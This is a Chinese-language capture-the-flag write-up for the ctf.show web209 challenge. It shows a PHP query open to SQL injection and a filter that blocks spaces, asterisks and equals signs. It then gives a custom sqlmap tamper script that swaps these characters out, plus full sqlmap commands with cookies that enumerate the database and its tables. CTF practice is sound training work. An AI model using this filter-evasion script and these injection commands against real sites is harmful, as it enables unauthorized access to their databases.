 ```bash
whereis sqlmap # 查看sqlmap路径，得到/usr/share/sqlmap
ls /usr/share/sqlmap/tamper/ # 查看tamper所有脚本
```

![scripts](/medias/show-sql/script.png)

这题的sql语句
```php
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
# 过滤preg_match('/ |\*|\=/', $str);空格，星号，等号
```

使用like模糊匹配

在tamper目录下写一个脚本`show-web209.py`，把sqlmap生成的payload里的等号换成like

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
    return payload.replace("=", " like ").replace(" ", chr(0x09))
```

```bash
# 爆数据库   ctfshow_web
sqlmap -u "https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web209.py --dbs 

# 爆表 ctfshow_flav
sqlmap -u "https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web209.py --dbs -D ctfshow_web --tables

```